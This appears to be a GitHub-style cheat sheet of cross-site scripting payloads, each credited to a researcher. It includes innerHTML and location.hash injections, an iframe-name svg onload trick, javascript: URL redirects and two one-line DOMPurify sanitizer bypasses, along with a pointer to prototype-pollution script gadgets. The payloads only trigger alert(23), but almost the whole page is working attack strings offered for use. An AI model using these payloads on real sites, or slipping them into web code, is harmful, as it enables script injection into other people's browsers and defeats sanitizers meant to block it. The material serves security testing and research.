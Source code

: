 ```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---
If the page is frameable [Renwa](https://twitter.com/RenwaX23/status/1125387416175546368)

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---
[user00239123](https://stackoverflow.com/a/40899496/9216926)

    document.location='javascript:alert%2823%29'

---
Only IE [matt](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/#comment-2157)
   
    example.com/xss#<img src=x onerror=alert(23)>
    
    document.body.innerHTML=location.hash;
---
[Brutelogic](https://twitter.com/brutelogic/status/585944389589065728)
    
    <svg/onload='alert&#40 23 &#41'> 

---
[Blakils](https://twitter.com/Blaklis_/status/1125663871056928769)

    location=/javascript:alert%2823%29/.source;
---
[Nicocanicolas](https://twitter.com/nicocanicolas/status/1125399154560307205)

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;
    
    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---

# With Script Gadgets 

Using Prorotype Pollution [PP Gadgets Repo](https://github.com/BlackFan/client-side-prototype-pollution#script-gadgets)

---

DOMPurify Bypass [Parrot](https://twitter.com/parrot409)

    delete DOMPurify.isSupported

---

DOMPurify Bypass [hakatashi](https://hackmd.io/@hakatashi/HkgG02U4t)

    delete document.implementation.__proto__.createHTMLDocument

---

### Anything: @[RenwaX23](https://twitter.com/RenwaX23)
